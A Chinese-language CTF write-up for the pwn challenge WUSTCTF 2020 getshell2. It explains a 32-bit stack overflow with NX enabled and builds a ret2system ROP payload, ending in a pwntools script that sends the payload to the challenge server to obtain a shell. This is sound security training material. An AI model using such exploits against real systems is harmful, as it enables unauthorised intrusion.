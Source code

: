 # [WUSTCTF 2020]getshell2

## 基本信息

- 题目链接:https://www.nssctf.cn/problem/2003

- 考点清单:栈溢出、ret2syscall

- 工具清单: IDA、ROPgadget、pwntools


## 一、看到什么

- service程序

    - IDA

    主函数一共俩函数`init()`与`vulnerable()`,其中vulnerable()存在read()函数,并且可读入的长度`36`大于预分配的空间`24`存在栈溢出

    ![](./images/WUSTCTF_2020getshell2-vulnerable.png)

    - checksec

    查看文件保护,NX保护开启,无法栈内运行shellcode

    ![](./images/WUSTCTF_2020getshell2-checksec.png)

    - file

    文件是32位的

    ![](./images/WUSTCTF_2020getshell2-file.png)


      
## 二、想到什么解题思路

1. `32位`意味着在填充`ebp`指向的地址时,只需要填充`0x04`大小的字节即可,因为`32位`的栈帧大小为`0x04`字节,而`64位`则为`0x08`字节

2. `NX保护`开启,无法直接在栈上执行shellcode,依然选择寻找system函数与/bin/sh的地址

## 三、尝试过程与结果记录

1. 尝试寻找`system`函数地址
发现`ALT + T`搜索`/bin/sh`与`sh`时,IDA会提示找不到匹配项，但是在`shell`函数中找到了一个`call _system`，似乎可执行

![](./images/WUSTCTF_2020getshell2-system_call.png)

`system()`函数调用的地址为`0x08048529`


2. 尝试寻找有关运行`/bin/sh`的函数

这里实在是找不到了，根据[ctf-基本rop](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#_5)提到的办法，因为有`NX`保护，不能写`shellcode`,所以我们利用程序中的 gadgets 来获得 shell。实际上我自己没有用过，查了一些教程，简单来说就是调用`sh`的环境变量

![](./images/WUSTCTF_2020getshell2-rop.png)

```sh
#第一次尝试找`/bin/sh`没有，所以放大下范围，查找`sh`
ROPgadget --binary service --string 'sh'
```

![](./images/WUSTCTF_2020getshell2-find_sh.png)

这里找到`sh`的地址`0x08048670`

现在有了`system`调用地址与`shell`的地址，接下来就是构造ROP链了

3. 构造ROP链

关于`call system`系统调用的入栈方式，查资料如下

||
|---|
|新的ebp地址|
|system函数返回地址|
|system调用参数(shell)|


所以构造方式

```
payload = 填充字符 + `system`地址 + `shell`地址 
```

```py
from pwn import *

l = remote('node5.anna.nssctf.cn',25627)

sys_addr = p32(0x08048529)

sh_addr = p32(0x08048670)

payload = (0x18+0x04)*b'A'+sys_addr+sh_addr

l.sendline(payload)

l.interactive()
```

## 总结

1. 注意```32位```与```64位```的区别,填充字符不同

2. 寻找`shell`的地址，可以利用`ROPgadget --binary service --string 'sh'`来查找



